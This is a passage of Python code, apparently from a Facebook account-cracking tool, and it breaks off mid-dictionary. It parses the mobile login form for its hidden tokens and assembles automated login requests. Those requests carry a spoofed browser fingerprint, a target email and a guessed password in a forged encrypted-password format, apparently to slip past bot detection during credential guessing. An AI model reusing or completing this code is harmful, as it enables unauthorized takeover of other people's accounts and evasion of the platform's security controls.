			halaman = ses_dev.get(url).content
			sop = BeautifulSoup(halaman, "html.parser")
			form = sop.find("form", id="login_form")
			url_post = form["action"]
			wkt_dev = time.time()

			payload = {}
			pay_dev = {}
			for dev in form:
				input = dev
				try:
					payload[input.get("name")] = input.get("value")
				except:
					pass
			pay_dev = {
							"lsd": str(payload["lsd"]),
							"m_ts": str(payload["m_ts"]),
							"jazoest": str(payload["jazoest"]),
							"li": str(payload["li"]),
							"try_number": str(payload["try_number"]),
							"unrecognized_tries": str(payload["unrecognized_tries"]),
							"bi_xrwh": str(payload["bi_xrwh"]),
							"prefill_contact_point": str(eml_dev),
							"prefill_source": "provided_or_soft_matched",
							"prefill_type": "contact_point",
							"first_prefill_source": "browser_dropdown",
							"first_prefill_type": "contact_point",
							"had_cp_prefilled": False,
							"had_password_prefilled": False,
							"is_smart_lock": False,
							"bi_wvdp": {"hwc":True,"hwcr":True,"has_dnt":True,"has_standalone":False,"wnd_toStr_toStr":"function toString() { [native code] }","hasPerm":True,"permission_query_toString":"function query() { [native code] }","permission_query_toString_toString":"function toString() { [native code] }","has_seWo":True,"has_meDe":True,"has_creds":True,"iframeProto":"function get contentWindow() { [native code] }","remap":False,"iframeData":{"hwc":True,"hwcr":False,"has_dnt":True,"has_standalone":False,"wnd_toStr_toStr":"function toString() { [native code] }","hasPerm":True,"permission_query_toString":"function query() { [native code] }","permission_query_toString_toString":"function toString() { [native code] }","has_seWo":True,"has_meDe":True,"has_creds":True}},
							"email": str(eml_dev),
							"encpass": "#PWD_BROWSER:0:{}:{}".format(str(random.randint(1000000000, 9999999999)), str(san_dev)),
							"bi_xrwh": "0",
							"__dyn": "",
							"__csr": "",
							"__req": "e",
							"__a": "",
							"__user": "0"}

			if "IqbalDev" in log_mbasic_dev or "IqbalDev" in log_free_dev:
				payload = {}
				for dev in form:
					input = dev
					try:
						payload[input.get("name")] = input.get("value")
					except:
						pass
				pay_dev = {
					"lsd": str(payload["lsd"]),
					"jazoest": str(payload["jazoest"]),
					"m_ts": str(payload["m_ts"]),
					"li": str(payload["li"]),
					"try_number": str(payload["try_number"]),
					"unrecognized_tries": str(payload["unrecognized_tries"]),
					"email": str(eml_dev),